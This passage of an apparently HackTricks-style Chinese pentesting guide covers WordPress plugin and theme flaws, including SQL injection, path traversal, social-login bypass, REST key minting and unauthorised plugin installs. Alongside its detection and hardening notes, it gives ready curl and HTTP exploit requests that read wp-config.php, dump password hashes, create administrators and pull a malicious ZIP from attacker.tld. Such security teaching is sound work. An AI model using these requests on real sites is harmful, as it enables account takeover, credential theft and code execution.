. wpjobportal::$_db->prefix . "wj_portal_categories " . $inquery; // executed later
```
该代码片段引入的问题：

1. **未经过清理的用户输入** – `parentid` 直接来自 HTTP 请求。
2. **WHERE 子句中的字符串拼接** – 未使用 `is_numeric()` / `esc_sql()` / prepared statement。
3. **无需身份验证即可访问** – 虽然该 action 通过 `admin-post.php` 执行，但唯一的检查是 **CSRF nonce**（`wp_verify_nonce()`）；任何访客都可以从嵌入 shortcode `[wpjobportal_my_resumes]` 的公开页面中获取该 nonce。

#### Exploitation

1. 获取一个新的 nonce：
```bash
curl -s https://victim.com/my-resumes/ | grep -oE 'name="_wpnonce" value="[a-f0-9]+' | cut -d'"' -f4
```
2. 利用 `parentid` 注入任意 SQL：
```bash
curl -X POST https://victim.com/wp-admin/admin-post.php \
-d 'task=savecategory' \
-d '_wpnonce=<nonce>' \
-d 'parentid=0 OR 1=1-- -' \
-d 'cat_title=pwn' -d 'id='
```
根据受影响版本中记录的响应行为确认注入是否成功（例如，观察可控的布尔差异或基于时间的差异）；该特定查询路径本身不会打印任意选定的列。

### 未经身份验证的任意文件下载 / 路径遍历（WP Job Portal <= 2.3.2）

另一个 task **downloadcustomfile** 允许访客通过路径遍历下载磁盘上的**任意文件**。易受攻击的 sink 位于 `modules/customfield/model.php::downloadCustomUploadedFile()`：<sup>[[2]](#references)</sup>
```php
$file = $path . '/' . $file_name;
...
echo $wp_filesystem->get_contents($file); // raw file output
```
`$file_name` 由攻击者控制，并且在**未经清理**的情况下进行拼接。再次强调，唯一的门槛是可以从简历页面获取的 **CSRF nonce**。

#### 利用
```bash
curl -G https://victim.com/wp-admin/admin-post.php \
--data-urlencode 'task=downloadcustomfile' \
--data-urlencode '_wpnonce=<nonce>' \
--data-urlencode 'upload_for=resume' \
--data-urlencode 'entity_id=1' \
--data-urlencode 'file_name=../../../wp-config.php'
```
服务器会响应 `wp-config.php` 的内容，从而泄露 DB credentials 和 auth keys。

## Unauthenticated account takeover via Social Login AJAX fallback (Jobmonster Theme <= 4.7.9)

许多 themes/plugins 会通过 `admin-ajax.php` 暴露“Social Login” helpers。如果某个未认证的 AJAX action（`wp_ajax_nopriv_...`）在 provider data 缺失时信任客户端提供的 identifiers，随后调用 `wp_set_auth_cookie()`，就会导致完整的 authentication bypass。<sup>[[10]](#references)</sup>

典型的 flawed pattern（简化版）
```php
public function check_login() {
// ... request parsing ...
switch ($_POST['using']) {
case 'fb':     /* set $user_email from verified Facebook token */ break;
case 'google': /* set $user_email from verified Google token   */ break;
// other providers ...
default: /* unsupported/missing provider – execution continues */ break;
}

// FALLBACK: trust POSTed "id" as email if provider data missing
$user_email = !empty($user_email)
? $user_email
: (!empty($_POST['id']) ? esc_attr($_POST['id']) : '');

if (empty($user_email)) {
wp_send_json(['status' => 'not_user']);
}

$user = get_user_by('email', $user_email);
if ($user) {
wp_set_auth_cookie($user->ID, true); // 🔥 logs requester in as that user
wp_send_json(['status' => 'success', 'message' => 'Login successfully.']);
}
wp_send_json(['status' => 'not_user']);
}
// add_action('wp_ajax_nopriv_<social_login_action>', [$this, 'check_login']);
```
为什么它可以被利用

- 通过 admin-ajax.php 实现未认证访问（wp_ajax_nopriv_… action）。
- 状态更改前缺少 nonce/capability 检查。
- 缺少 OAuth/OpenID provider 验证；default branch 接受攻击者输入。
- get_user_by('email', $_POST['id']) 后调用 wp_set_auth_cookie($uid)，使请求者可以任意现有 email 地址对应的用户身份进行认证。

Exploitation（未认证）

- 前提条件：攻击者可以访问 /wp-admin/admin-ajax.php，并且知道或猜测有效的用户 email。
- 将 provider 设置为不受支持的值（或省略它），以进入 default branch，并传入 id=<victim_email>。
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Content-Type: application/x-www-form-urlencoded

action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com
```

```bash
curl -i -s -X POST https://victim.tld/wp-admin/admin-ajax.php \
-d "action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com"
```
成功指标

- HTTP 200，JSON body 类似 {"status":"success","message":"Login successfully."}。
- 为受害者用户设置 `Set-Cookie: wordpress_logged_in_*`；后续请求已通过身份验证。

查找 action 名称

- 检查 theme/plugin，在 social login 代码中查找 `add_action('wp_ajax_nopriv_...', '...')` 注册（例如 `framework/add-ons/social-login/class-social-login.php`）。
- 在 AJAX handlers 中搜索 `wp_set_auth_cookie()`、`get_user_by('email', ...)`。

检测清单

- Web logs 显示未认证的 `POST` 请求发送到 `/wp-admin/admin-ajax.php`，其中包含 social-login action 和 `id=<email>`。
- 来自同一 IP/User-Agent 的已认证流量之前，紧接着出现带有成功 JSON 的 200 响应。

加固

- 不要根据客户端输入推导身份。只接受来自已验证 provider token/ID 的 email/ID。
- 即使是 login helpers，也要求 CSRF nonces 和 capability checks；除非绝对必要，否则避免注册 `wp_ajax_nopriv_`。
- 在 server-side 验证并核实 OAuth/OIDC responses；拒绝缺失或无效的 providers（不得回退到 POST id）。
- 在修复前，可考虑暂时禁用 social login，或在 edge 处进行 virtual patch（阻止存在漏洞的 action）。

已修补行为（Jobmonster 4.8.0）

- 移除了来自 `$_POST['id']` 的不安全 fallback；`$user_email` 必须来自 `switch($_POST['using'])` 中经过验证的 provider branches。

## 基于可预测身份铸造 REST token/key 导致的未认证 privilege escalation（OttoKit/SureTriggers ≤ 1.0.82）

某些 plugins 暴露 REST endpoints，可在未验证调用者 capabilities 的情况下铸造可复用的“connection keys”或 tokens。如果 route 仅根据可猜测的属性（例如 username）进行 authentication，并且没有通过 capability checks 将 key 绑定到 user/session，任何未认证 attacker 都可以铸造 key 并调用 privileged actions（创建 admin account、执行 plugin actions → RCE）。<sup>[[12]](#references)</sup>

- 存在漏洞的 route（示例）：sure-triggers/v1/connection/create-wp-connection
- 缺陷：接受 username，在没有 `current_user_can()` 或严格 `permission_callback` 的情况下签发 connection key
- 影响：将铸造的 key 链接到内部 privileged actions 后，可完全接管系统

PoC – 铸造 connection key 并使用它
```bash
# 1) Obtain key (unauthenticated). Exact payload varies per plugin
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/connection/create-wp-connection" \
-H 'Content-Type: application/json' \
--data '{"username":"admin"}'
# → {"key":"<conn_key>", ...}

# 2) Call privileged plugin action using the minted key (namespace/route vary per plugin)
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/users" \
-H 'Content-Type: application/json' \
-H 'X-Connection-Key: <conn_key>' \
--data '{"username":"pwn","email":"p@t.ld","password":"p@ss","role":"administrator"}'
```
为什么可被利用
- 敏感 REST 路由仅由低熵身份凭证（用户名）保护，或缺少 permission_callback
- 未执行 capability 检查；minted key 会被接受为通用 bypass

检测清单
- 在插件代码中 grep `register_rest_route(..., [ 'permission_callback' => '__return_true' ])`
- 任何基于请求提供的身份（用户名/邮箱）签发 tokens/keys 的路由，且未将其绑定到已认证用户或 capability
- 查找后续接受 minted token/key、但未执行 server-side capability 检查的路由

加固
- 对任何特权 REST 路由：要求使用 permission_callback，并通过 `current_user_can()` 强制检查所需 capability
- 不要根据客户端提供的身份 mint 长期有效的 keys；如有需要，应在 authentication 后签发短期、绑定用户的 tokens，并在使用时重新检查 capabilities
- 验证调用者的用户上下文（`wp_set_current_user` 单独使用并不足够），并拒绝 `!is_user_logged_in() || !current_user_can(<cap>)` 的请求。

---

## Nonce gate 误用 → 未认证的任意插件安装（FunnelKit Automations ≤ 3.5.3）

Nonces 用于防止 CSRF，而不是进行 authorization。如果代码将 nonce 通过视为放行信号，随后跳过特权操作（例如安装/激活插件）的 capability 检查，未认证攻击者即可满足弱 nonce 要求，并通过安装带后门或存在漏洞的插件实现 RCE。<sup>[[13]](#references)</sup>

- Vulnerable path: plugin/install_and_activate
- Flaw: weak nonce hash check; nonce “passes” 后不再执行 current_user_can('install_plugins'|'activate_plugins')
- Impact: 通过任意插件安装/激活实现完全 compromise

PoC（具体形式取决于插件；仅作示例）
```bash
curl -i -s -X POST https://victim.tld/wp-json/<fk-namespace>/plugin/install_and_activate \
-H 'Content-Type: application/json' \
--data '{"_nonce":"<weak-pass>","slug":"hello-dolly","source":"https://attacker.tld/mal.zip"}'
```
检测清单
- 仅使用 wp_verify_nonce()/check_admin_referer() 修改 plugins/themes，且没有 capability check 的 REST/AJAX handlers
- nonce validation 后将 $skip_caps = true 的任何代码路径

加固
- 始终仅将 nonces 视为 CSRF tokens；无论 nonce 状态如何，都强制执行 capability checks
- 在进入 installer code 前，要求 current_user_can('install_plugins') 和 current_user_can('activate_plugins')
- 拒绝 unauthenticated access；避免为 privileged flows 暴露 nopriv AJAX actions

### Subscriber+ AJAX plugin installer → 强制激活 malicious plugin（Motors Theme ≤ 5.6.81）

[Patchstack 的分析](https://patchstack.com/articles/critical-arbitrary-file-upload-vulnerability-in-motors-theme-affecting-20k-sites/) 展示了 Motors theme 如何为安装其 companion plugin 提供 authenticated AJAX helper：<sup>[[16]](#references)</sup>
```php
add_action('wp_ajax_mvl_theme_install_base', 'mvl_theme_install_base');

function mvl_theme_install_base() {
check_ajax_referer('mvl_theme_install_base', 'nonce');

$plugin_url  = sanitize_text_field($_GET['plugin']);
$plugin_slug = 'motors-car-dealership-classified-listings';

$upgrader = new Plugin_Upgrader(new Motors_Theme_Plugin_Upgrader_Skin(['plugin' => $plugin_slug]));
$upgrader->install($plugin_url);
mvl_theme_activate_plugin($plugin_slug);
}
```
- 只调用了 `check_ajax_referer()`；没有调用 `current_user_can('install_plugins')` 或 `current_user_can('activate_plugins')`。
- nonce 被嵌入 Motors admin 页面中，因此任何能够打开 `/wp-admin/` 的 Subscriber 都可以从 HTML/JS 中复制它。
- handler 信任攻击者控制的 `plugin` 参数（从 `$_GET` 读取），并将其传入 `Plugin_Upgrader::install()`，因此任意远程 ZIP 都会被下载到 `wp-content/plugins/`。
- 安装完成后，theme 会无条件调用 `mvl_theme_activate_plugin()`，从而确保执行攻击者 plugin 的 PHP 代码。

#### Exploitation flow

1. 注册或 compromise 一个低权限 account（Subscriber 即可），并从 Motors dashboard UI 获取 `mvl_theme_install_base` nonce。
2. 构造一个 plugin ZIP，其顶层目录匹配预期的 slug `motors-car-dealership-classified-listings/`，并在 `*.php` entry points 中嵌入 backdoor 或 webshell。
3. 托管该 ZIP，并将 handler 指向你的 URL 以触发 installer：
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Cookie: wordpress_logged_in_=...
Content-Type: application/x-www-form-urlencoded

action=mvl_theme_install_base&nonce=<leaked_nonce>&plugin=https%3A%2F%2Fattacker.tld%2Fmotors-car-dealership-classified-listings.zip
```
Because handler 读取 `$_GET['plugin']`，因此也可以通过 query string 发送相同的 payload。

#### Detection checklist

- 在 themes/plugins 中搜索 `Plugin_Upgrader`、`Theme_Upgrader` 或自定义的 `install_plugin.php` helpers，检查它们是否连接到 `wp_ajax_*` hooks 且没有 capability checks。
- 检查任何接收 `plugin`、`package`、`source` 或 `url` 参数并将其传入 upgrader APIs 的 handler，尤其要注意 slug 已硬编码但未验证 ZIP 内容的情况。
- 检查暴露 installer actions 的 admin pages——如果 Subscribers 可以加载该页面，则应假设 nonce 已 leak。

#### Hardening

- 在 nonce verification 后，使用 `current_user_can('install_plugins')` 和 `current_user_can('activate_plugins')` 限制 installer AJAX callbacks；Motors 5.6.82 引入了此检查以修复该 bug。
- 拒绝不受信任的 URLs：将 installers 限制为 bundled ZIPs 或 trusted repositories，或强制使用 signed download manifests。
- 严格将 nonces 视为 CSRF tokens；它们不提供 authorization，绝不能替代 capability checks。

---

## Unauthenticated SQLi via s search parameter in depicter-* actions (Depicter Slider ≤ 3.6.1)

多个 depicter-* actions 使用 s（search）参数，并在未进行 parameterization 的情况下将其拼接到 SQL queries 中。<sup>[[14]](#references)</sup>

- Parameter: s (search)
- Flaw: 在 WHERE/LIKE clauses 中直接进行 string concatenation；没有 prepared statements/sanitization
- Impact: database exfiltration（users、hashes）、lateral movement

PoC
```bash
# Replace action with the affected depicter-* handler on the target
curl -G "https://victim.tld/wp-admin/admin-ajax.php" \
--data-urlencode 'action=depicter_search' \
--data-urlencode "s=' UNION SELECT user_login,user_pass FROM wp_users-- -"
```
检测清单
- Grep 查找 depicter-* action handlers，以及在 SQL 中直接使用 $_GET['s'] 或 $_POST['s'] 的位置
- Review 传递给 $wpdb->get_results()/query() 且拼接 s 的 custom queries

加固
- 始终使用 $wpdb->prepare() 或 wpdb placeholders；在 server-side 拒绝意外的 metacharacters
- 为 s 添加严格的 allowlist，并将其 normalize 为预期的 charset/length

---

## Unauthenticated Local File Inclusion via unvalidated template/file path (Kubio AI Page Builder ≤ 2.5.1)

在 template parameter 中接受 attacker-controlled paths 且不进行 normalization/containment，可能导致读取任意本地文件；如果可包含的 PHP/log 文件被加载到 runtime 中，有时还可能实现 code execution。<sup>[[15]](#references)</sup>

- Parameter: __kubio-site-edit-iframe-classic-template
- Flaw: no normalization/allowlisting；允许 traversal
- Impact: secret disclosure (wp-config.php)，在特定环境中可能导致 RCE（log poisoning、可包含的 PHP）

PoC – 读取 wp-config.php
```bash
curl -i "https://victim.tld/?__kubio-site-edit-iframe-classic-template=../../../../wp-config.php"
```
检测清单
- 检查是否有 handler 将 request paths 拼接到 include()/require()/read sinks 中，却没有使用 realpath() containment
- 查找 traversal patterns（../）是否能够到达预期 templates directory 之外

加固
- 强制使用 allowlisted templates；使用 realpath() 解析，并要求 str_starts_with(realpath(file), realpath(allowed_base))
- 规范化 input；拒绝 traversal sequences 和 absolute paths；仅对 filenames 使用 sanitize_file_name()（不要用于完整 paths）


## References

- [1] [Litho Theme 中未经身份验证的任意文件删除 Vulnerability](https://patchstack.com/articles/unauthenticated-arbitrary-file-delete-vulnerability-in-litho-the/)
- [2] [WP Job Portal Plugin 中修复的多个 Critical Vulnerabilities](https://patchstack.com/articles/multiple-critical-vulnerabilities-patched-in-wp-job-portal-plugin/)
- [3] [影响 100k+ Sites 的 ASE Plugin 中罕见的 Privilege Escalation 案例](https://patchstack.com/articles/rare-case-of-privilege-escalation-in-ase-plugin-affecting-100k-sites/)
- [4] [ASE 7.6.3 changeset – profile update 时删除 original roles](https://plugins.trac.wordpress.org/changeset/3211945/admin-site-enhancements/tags/7.6.3/classes/class-view-admin-as-role.php?old=3208295&old_path=admin-site-enhancements%2Ftags%2F7.6.2%2Fclasses%2Fclass-view-admin-as-role.php)
- [5] [Hosting security tested：87.8% 的 vulnerability exploits 绕过了 hosting defenses](https://patchstack.com/articles/hosting-security-tested-87-percent-of-vulnerability-exploits-bypassed-hosting-defenses/)
- [6] [WooCommerce Payments ≤ 5.6.1 – 通过 trusted header 实现的 Unauth privilege escalation（Patchstack DB）](https://patchstack.com/database/wordpress/plugin/woocommerce-payments/vulnerability/wordpress-woocommerce-payments-plugin-5-6-1-unauthenticated-privilege-escalation-vulnerability)
- [7] [Hackers 正在利用 Critical WordPress WooCommerce Payments bug](https://www.bleepingcomputer.com/news/security/hackers-exploiting-critical-wordpress-woocommerce-payments-bug/)
- [8] [Service Finder Bookings Plugin 中未修复的 Privilege Escalation](https://patchstack.com/articles/unpatched-privilege-escalation-in-service-finder-bookings-plugin/)
- [9] [Service Finder Bookings privilege escalation – Patchstack DB 条目](https://patchstack.com/database/wordpress/plugin/sf-booking/vulnerability/wordpress-service-finder-booking-6-0-privilege-escalation-vulnerability)
- [10] [WordPress Jobmonster Theme 中未经身份验证的 Broken Authentication Vulnerability](https://patchstack.com/articles/unauthenticated-broken-authentication-vulnerability-in-wordpress-jobmonster-theme/)
- [11] [2025 年第三季度 exploited 最多的 WordPress vulnerabilities，以及 RapidMitigate 如何阻止它们](https://patchstack.com/articles/q3-2025s-most-exploited-wordpress-vulnerabilities-and-how-patchstacks-rapidmitigate-blocked-them/)
- [12] [OttoKit (SureTriggers) ≤ 1.0.82 – Privilege Escalation（Patchstack DB）](https://patchstack.com/database/wordpress/plugin/suretriggers/vulnerability/wordpress-suretriggers-1-0-82-privilege-escalation-vulnerability)
- [13] [FunnelKit Automations ≤ 3.5.3 – 未经身份验证的 arbitrary plugin installation（Patchstack DB）](https://patchstack.com/database/wordpress/plugin/wp-marketing-automations/vulnerability/wordpress-recover-woocommerce-cart-abandonment-newsletter-email-marketing-marketing-automation-by-funnelkit-plugin-3-5-3-missing-authorization-to-unauthenticated-arbitrary-plugin-installation-vulnerability)
- [14] [Depicter Slider ≤ 3.6.1 – 通过 s parameter 实现的未经身份验证的 SQLi（Patchstack DB）](https://patchstack.com/database/wordpress/plugin/depicter/vulnerability/wordpress-depicter-slider-plugin-3-6-1-unauthenticated-sql-injection-via-s-parameter-vulnerability)
- [15] [Kubio AI Page Builder ≤ 2.5.1 – 未经身份验证的 LFI（Patchstack DB）](https://patchstack.com/database/wordpress/plugin/kubio/vulnerability/wordpress-kubio-ai-page-builder-plugin-2-5-1-unauthenticated-local-file-inclusion-vulnerability)
- [16] [影响 20k+ Sites 的 Motors Theme Critical Arbitrary File Upload Vulnerability](https://patchstack.com/articles/critical-arbitrary-file-upload-vulnerability-in-motors-theme-affecting-20k-sites/)
- [17] [nowak0x01.github.io - Papers](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html)
- [18] [nowotarski.info - Wordpress Nonce Authorization](https://nowotarski.info/wordpress-nonce-authorization)
- [19] [XSS2Shell：WordPress Preauth XSS to RCE Chain](https://pwn.ai/blog/xss2shell)
- [20] [WordPress 7.0.3 security release](https://wordpress.org/news/2026/08/wordpress-7-0-3-release/)
- [21] [Editing `wp-config.php` – WordPress Advanced Administration Handbook](https://developer.wordpress.org/advanced-administration/wordpress/wp-config/)
- [22] [WordPress XML-RPC API and server implementation](https://developer.wordpress.org/reference/classes/wp_xmlrpc_server/)
- [23] [WordPress 5.5 中的新 XML Sitemaps Functionality](https://make.wordpress.org/core/2020/07/22/new-xml-sitemaps-functionality-in-wordpress-5-5/)
- [24] [WordPress User Roles and Capabilities](https://developer.wordpress.org/apis/security/user-roles-and-capabilities/)
- [25] [`wp_xmlrpc_server::pingback_ping()` 和安全的 remote URL validation](https://developer.wordpress.org/reference/classes/wp_xmlrpc_server/pingback_ping/)
- [26] [QuickPress WordPress request checks](https://github.com/t0gu/quickpress/blob/master/core/requests.go)
- [27] [WordPress nonces 不是 authorization](https://developer.wordpress.org/apis/security/nonces/)
- [28] [配置 WordPress automatic background updates](https://developer.wordpress.org/advanced-administration/upgrade/upgrading/)
- [29] [加固 WordPress](https://developer.wordpress.org/advanced-administration/security/hardening/)
{{#include ../../banners/hacktricks-training.md}}
